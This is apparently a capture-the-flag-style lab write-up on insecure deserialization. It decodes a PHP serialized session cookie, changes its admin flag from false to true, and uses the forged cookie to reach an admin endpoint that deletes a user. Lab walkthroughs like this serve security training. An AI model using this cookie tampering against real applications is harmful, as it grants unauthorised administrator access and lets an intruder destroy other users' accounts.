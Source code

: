 # Insecure deserialization


<details>
  <summary>Lab: Modifying serialized objects</summary>

1. login as `wiener`
2. intercept the request of `/my-account`

<img width="707" height="621" alt="image" src="https://github.com/user-attachments/assets/4277d372-f554-4646-8b6e-ea389fb9d546" />

```
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
```

3. send cookie to decoder found

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}%3d
```

4. now try to change **`b:0`** to **`b:1`** from false to true
 
<img width="1460" height="634" alt="image" src="https://github.com/user-attachments/assets/f1465f17-e624-4fa0-8456-fbb483a8a3c2" />

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}%3d
```

<img width="1102" height="428" alt="image" src="https://github.com/user-attachments/assets/b6e40c36-3938-4f69-89d6-0815ba9c3fd9" />

5. now visit admin panal and delete carlos

```
/admin/delete?username=carlos
```

<img width="1421" height="793" alt="image" src="https://github.com/user-attachments/assets/cef09826-e1ec-41af-af50-7804bb31a5a6" />


  
</details>
